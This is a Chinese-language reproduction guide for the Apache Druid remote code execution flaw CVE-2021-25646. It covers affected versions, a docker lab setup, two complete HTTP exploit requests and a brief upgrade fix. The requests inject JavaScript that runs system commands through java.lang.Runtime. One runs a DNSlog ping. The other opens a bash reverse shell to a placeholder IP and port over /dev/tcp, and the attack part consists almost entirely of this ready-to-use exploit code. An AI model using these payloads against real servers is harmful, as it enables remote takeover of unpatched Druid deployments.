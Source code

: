 # Apache Druid 远程代码执行漏洞（CVE-2021-25646）

# 漏洞概述

Apache Druid是美国阿帕奇软件（Apache）基金会的一款使用Java语言编写的、面向列的开源分布式数据库。

Apache Druid 0.20.0和更早的版本存在访问控制错误漏洞，该漏洞允许经过身份验证的用户强制Druid运行用户提供的JavaScript代码，并执行服务器进程特权的代码。



# 影响版本 



```
Apache Druid < 0.20.1
```



# 搭建环境



```
为了复现方便，这里使用docker搭建环境
docker search docker-druid #搜索镜像
docker pull fokkodriesprong/docker-druid #拉取镜像
docker run --rm -i -p 8888:8888  fokkodriesprong/docker-druid #启动镜像
```

注：如果大家拉取镜像比较慢可以配置一下国内镜像源，这里我使用的是阿里云的加速源URL为:https://cr.console.aliyun.com/



\## 本机访问IP:888端口显示该页面表示启动成功

![image-20210220145956286](./resource/apache-druid远程代码执行漏洞CVE-2021-25646/media/image-20210220145956286.png)

# 漏洞复现

\## POC使用DNSlog检测是否可以执行命令



```

POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.30.137:8888
Content-Length: 604
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.30.137:8888
Referer: http://192.168.30.137:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('ping XXXX')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![image-20210220150109610](./resource/apache-druid远程代码执行漏洞CVE-2021-25646/media/image-20210220150109610.png)

\## 反弹shell

这里说一下踩的坑之前是用0.20.0版本做的复测，发现在0.20.0版本使用/bin/bash命令时服务器会报错,应该是做了过滤

![image-20210220150134585](./resource/apache-druid远程代码执行漏洞CVE-2021-25646/media/image-20210220150134585.png)

所以改用了0.17.0版本来进行测试，其他版本请自测



```
POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.30.137:8888
Content-Length: 604
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.30.137:8888
Referer: http://192.168.30.137:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"type":"index","spec":{"type":"index","ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/opt/","filter":""}},"dataSchema":{"dataSource":"sample","parser":{"type":"string","parseSpec":{"format":"json","timestampSpec":{"column":"time","format":"iso"},"dimensionsSpec":{}}},"transformSpec":{"transforms":[],"filter":{"type":"javascript",
"function":"function(value){return java.lang.Runtime.getRuntime().exec('/bin/bash -c $@|bash 0 echo bash -i >&/dev/tcp/IP/PORT 0>&1')}",
"dimension":"added",
"":{
"enabled":"true"
}
}}}},"samplerConfig":{"numRows":500,"timeoutMs":15000}}
```

![image-20210220150159397](./resource/apache-druid远程代码执行漏洞CVE-2021-25646/media/image-20210220150159397.png)

**修复方式**

升级到最新版Apache Druid 0.20.1